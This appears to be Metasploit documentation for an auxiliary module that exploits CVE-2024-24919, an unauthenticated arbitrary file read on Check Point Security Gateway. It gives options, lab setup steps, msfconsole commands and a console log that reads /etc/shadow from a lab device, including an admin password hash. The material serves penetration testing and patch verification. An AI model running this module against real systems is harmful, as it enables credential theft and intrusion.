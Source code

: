 ## Vulnerable Application
This module leverages an unauthenticated arbitrary root file read vulnerability for
Check Point Security Gateway appliances. When the IPSec VPN or Mobile Access blades
are enabled on affected devices, traversal payloads can be used to read any files on
the local file system. Password hashes read from disk may be cracked, potentially
resulting in administrator-level access to the target device. This vulnerability is
tracked as CVE-2024-24919.

## Options

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: /etc/shadow). This should be a full Linux file path. Files containing binary data may not be read accurately.

## Testing
To set up a test environment:
1. Download an affected version of Check Point Security Gateway (Such as Check_Point_R81.20_T631.iso, SHA1: 42e25f45ab6b1694a97f76ca363d58040802e6d6).
2. Install the ISO within a virtual machine.
3. Browse to the administrator web dashboard on port 443 and complete the first-time setup tasks.
4. On a Windows system, download and install a copy of Check Point SmartConsole, then use it to authenticate to Security Gateway.
5. In SmartConsole, enable and configure the vulnerable Mobile Access or IPSec VPN blades.
6. Publish and push the configuration changes to the device.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
7. `run`

## Scenarios
### Check Point Security Gateway Linux
```
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > show options 

Module options (auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false            yes       Store the target file as loot
   TARGETFILE  /etc/shadow      yes       The target file to read. This should be a full Linux file path. Files containing binary data may not be read accurately
   TARGETURI   /                yes       The URI path to Check Point Security Gateway
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set RHOSTS 192.168.181.128
RHOSTS => 192.168.181.128
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > check
[+] 192.168.181.128:443 - The target is vulnerable. Arbitrary file read successful!
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > run
[*] Running module against 192.168.181.128

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file read successful!
[+] File read succeeded! 
admin:$6$hHJHiZdC2kHPD5HQ$/0dtMC53GSaZpLA/MeChOvJNNE4i9qoKL57Dsl853wF/RRNzJJ6CO5/qBmzCM7KdEUmXanF3J8T50ppLh/Sf2/:14559:0:99999:8:::
monitor:*:19872:0:99999:8:::
root:*:19872:0:99999:7:::
cp_routeevt:*:19872:0:99999:7:::
nobody:*:19872:0:99999:7:::
postfix:*:19872:0:99999:7:::
rpm:!!:19872:0:99999:7:::
shutdown:*:19872:0:99999:7:::
pcap:!!:19872:0:99999:7:::
halt:*:19872:0:99999:7:::
cp_postgres:*:19872:0:99999:7:::
cp_extensions:*:19872:0:99999:7:::
cpep_user:*:19872:0:99999:7:::
vcsa:!!:19872:0:99999:7:::
_nonlocl:*:19872:0:99999:7:::
sshd:*:19872:0:99999:7:::

[*] Auxiliary module execution completed
```
